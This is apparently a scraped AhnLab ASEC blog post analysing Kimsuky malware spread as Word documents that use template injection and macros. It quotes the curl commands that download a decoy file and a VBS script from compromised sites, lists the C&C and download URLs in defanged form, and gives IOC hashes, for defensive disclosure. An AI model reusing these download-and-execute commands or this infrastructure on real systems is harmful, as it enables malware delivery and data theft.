 # Reference for threat actor for "Kimsuky, Velvet Chollima"

**Title**: Malware Disguised as Normal Documents (Kimsuky) - ASEC BLOG

**Source**: https://asec.ahnlab.com/en/47585/

## Content


















Malware Disguised as Normal Documents (Kimsuky) - ASEC BLOG





































































 

Malware Information
AhnLab Detection
Statistics
Response Guide
AhnLab
 














Posted By yeeun  , February 15, 2023 

Malware Disguised as Normal Documents (Kimsuky) 
The ASEC analysis team has recently discovered that the malware introduced in the post, <Malware Disguised as a Manuscript Solicitation Letter (Targeting Security-Related Workers)>, is being distributed to broadcasting and ordinary companies as well as those in the security-related field. Identical to the malware introduced in the blog post above, all the malware documents utilize the template injection technique and download malicious word macro documents to execute themselves. The distributed filenames are as follows:

[kbs Sunday Diagnosis] Questionnaire.docx
Im ** Cover Letter.docx
app-planning – copy.docx


External URL found in \word\_rels\settings.xml.rels
To facilitate the execution of the malicious macro code, the threat actor used an image that prompts users to execute the macro. The image has been constantly used since the past and is suspected to be all from the same operator.

Word File Provided as External Link When Replying to Attacker’s Email (Kimsuky)


Prompting users to enable content
Below is a list of download URLS of malicious Word macro documents we have additionally identified.

hxxp://www.hydrotec.co[.]kr/bbs/img/cmg/upload2/init.dotm
hxxp://www.hydrotec.co[.]kr/bbs/img/cmg/upload3/init.dotm
hxxp://jooshineng[.]com/gnuboard4/adm/img/ghp/up/state.dotm
hxxp://gdtech[.]kr/gnuboard4/adm/cmg/attatch/init.dotm
hxxp://ddim.co[.]kr/gnuboard4/adm/cmg/upload/init.dotm

When the malicious macro inside the downloaded document is executed, it generates and runs the version.bat file that contains the curl command. The batch file includes codes that download and execute a normal document and additional malicious script. The used curl commands are as follows.

curl -o “”” & fname & “”” hxxp://gdtech[.]kr/gnuboard4/adm/cmg/upload/state.docx
curl -o %temp%\temp.vbs hxxp://gdtech[.]kr/gnuboard4/adm/cmg/upload/list.php?query=60

Confirmed normal documents disguised themselves cover letters, application proposals, and more.

Normal document – 1

Normal document – 2

Normal document – 3
Identical to the previous findings, the additional malicious script leaks the following data to the C&C server.

Infected PC system information
Information on virus vaccines installed on the system
List of recently opened Word files
Directory information of the download folder in the system
Information of running processes
Modification of IE-related registries
Registration to the task scheduler to maintain a connection to the C&C server

The confirmed C&C URLs are as follows.

hxxp://gdtech[.]kr/gnuboard4/adm/cmg/upload/show.php
hxxp://ddim.co[.]kr/gnuboard4/adm/cmg/upload/show.php
hxxp://www.hydrotec.co[.]kr/bbs/img/cmg/upload3/show.php

Recently, malware cases targeting North Korea-related individuals are also being distributed to ordinary corporate users, calling for their utmost precaution. Users must therefore refrain from viewing emails from unknown senders and take caution so that macros included in Office documents do not run automatically.
[File Detection]

Downloader/DOC.External (2023.02.03.03)
Downloader/DOC.Kimsuky (2023.02.07.00)

[IOC]

55a46a2415d18093abcd59a0bf33d0a9 (docx)
3cdf9f829ed03e1ac17b72b636d84d0bs (dotm)
873b2b0656ee9f6912390b5abc32b276 (dotm)
83b4d96fc75f74bb589c28e8a9eddbbf (dotm)
705ef00224f3f7b02e29f21eb6e10d02 (dotm)
hxxp://gdtech[.]kr/gnuboard4/adm/cmg/attatch/init.dotm
hxxp://ddim.co[.]kr/gnuboard4/adm/cmg/upload/init.dotm
hxxp://www.hydrotec.co[.]kr/bbs/img/cmg/upload2/init.dotm
hxxp://www.hydrotec.co[.]kr/bbs/img/cmg/upload3/init.dotm
hxxp://gdtech[.]kr/gnuboard4/adm/cmg/upload/list.php?query=60

Subscribe to AhnLab’s next-generation threat intelligence platform ‘AhnLab TIP’ to check related IOC and detailed analysis information.


Categories:Malware Information 





Continuous Distribution of LockBit 2.0 Ransomware Disguised as Resumes 

Qakbot Being Distributed via OneNote 







5
1
vote
Article Rating

 





 Subscribe




 Login 




Notify of 


new follow-up comments
new replies to my comments








 







 


Label












{}
[+]

 















Name*





Email





Website






[Important] Consent to Collection and Use of Personal Information


Purpose: Identify the contact information of user who left a comment and respond to inquiries on our blog posts.
Personal Information We Collect: Name of user and organization, Email address
Period of Retention: We store personal information for 3 months. Then, we delete and destroy personal information without delay.

 



I agree to AhnLab’s collection and use of personal information.




















Δ 










 


Label












{}
[+]

 















Name*





Email





Website






[Important] Consent to Collection and Use of Personal Information


Purpose: Identify the contact information of user who left a comment and respond to inquiries on our blog posts.
Personal Information We Collect: Name of user and organization, Email address
Period of Retention: We store personal information for 3 months. Then, we delete and destroy personal information without delay.

 



I agree to AhnLab’s collection and use of personal information.




















Δ 






1 Comment                    









 Inline Feedbacks                    
View all comments











CHM Malware Disguised as North Korea-related Questionnaire (Kimsuky) - Ciberdefensa



    11 months ago













[…] Malware Disguised as Normal Documents (Kimsuky) – Feb 03, 2023 […]






0






Reply




 













Archives Archives

Select Month
 February 2024 
 January 2024 
 December 2023 
 November 2023 
 October 2023 
 September 2023 
 August 2023 
 July 2023 
 June 2023 
 May 2023 
 April 2023 
 March 2023 
 February 2023 
 January 2023 
 December 2022 
 November 2022 
 October 2022 
 September 2022 
 August 2022 
 July 2022 
 June 2022 
 May 2022 
 April 2022 
 March 2022 
 February 2022 
 January 2022 
 December 2021 
 November 2021 
 October 2021 
 September 2021 
 August 2021 
 July 2021 
 June 2021 
 May 2021 
 April 2021 
 March 2021 
 February 2021 
 January 2021 
 December 2020 
 November 2020 
 September 2020 
 August 2020 
 July 2020 
 June 2020 
 May 2020 
 April 2020 
 March 2020 
 February 2020 
 December 2019 
 November 2019 
 October 2019 
 September 2019 
 August 2019 
 June 2019 
 May 2019 
 April 2019 
 March 2019 
 February 2019 
 January 2019 
 November 2018 
 July 2018 
 April 2018 
 February 2018 


FOLLOW US


LinkedIn   


X   


RSS Feed   









footer(en) 220, Pangyoyeok-ro, Bundang-gu, Seongnam-si, Gyeonggi-do, Korea | Privacy & Security© AhnLab, Inc. All rights reserved.family site


한국 (한국어)
Global (English)
日本 (日本語)
 




wpDiscuzInsert 


















































































































































































































